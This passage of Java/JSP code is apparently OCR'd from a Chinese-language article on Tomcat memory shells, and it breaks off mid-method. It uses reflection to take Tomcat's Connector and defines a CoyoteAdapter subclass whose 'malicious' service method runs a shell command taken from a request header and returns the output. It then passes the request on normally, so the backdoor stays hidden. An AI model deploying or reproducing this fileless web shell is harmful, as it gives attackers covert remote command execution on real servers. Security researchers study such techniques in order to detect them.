 ```jsp
        }
        // 没有获取到对应Http11Processor，返回一个空对象
        return new Http11Processor(8192,true,false,null,8192,null, 8192,2097152,null,false);
    }

    // 拿到旧的 Connector 对象，在 Http11Processor.adapter.connector
    public Connector getConnector(){
        Http11Processor http11Processor = getHttp11Processor();
        Connector Connector =  (Connector) getField(getField(http11Processor,"adapter"),"connector");
        return Connector;
    }

    // 反射拿到类的属性
    public Object getField(Object obj, String field) {
        // 递归获取类的及其父类的属性
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }

    // 编写新 Adapter，是 CoyoteAdapter 的子类，并且重写恶意 service 方法
    public class myAdapter extends CoyoteAdapter {
        public myAdapter(Connector connector) {
            super(connector);
        }
        // 重写恶意 service 方法
        @Override
        public void service(Request req, Response res) throws Exception {
            // evil code，命令执行
            try {
                String cmd = getRequest();
                if (!cmd.equals("")){
                    String[] cmds = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next().getBytes();
                    getResponse(result);
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
            try{
                // 必须调用父类方法，保证正常的 service 调用
                super.service(req,res);
            }catch (Exception e){
                e.printStackTrace();
            }

        }

        // 拿到 Request 对象，在http11Processor.request.headers.headers的下面
        // Header cmd
        public String getRequest() {
            String cmd = "";
```